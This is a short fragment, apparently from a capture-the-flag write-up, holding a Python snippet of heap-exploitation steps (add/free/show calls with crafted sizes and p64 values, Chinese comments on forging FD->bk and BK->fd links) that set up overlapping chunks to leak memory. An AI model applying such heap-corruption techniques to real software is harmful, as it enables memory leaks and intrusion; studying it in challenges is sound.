 ```python
add(0x410, "a" * 8)  # 6
print("构造FD->bk成功")
free(6)
free(3)
free(5)

add(0x4f0, b"b" * 0x488 + p64(0x431))  # 3
add(0x3b0, "a" * 8)  # 5
print("构造BK->fd成功")
free(4)

add(0x108, b"c" * 0x100 + p64(0x550))  # 4
add(0x400, "a" * 8)  # 6
free(3)
add(0x10, "a" * 8)  # 3
show(6)
```


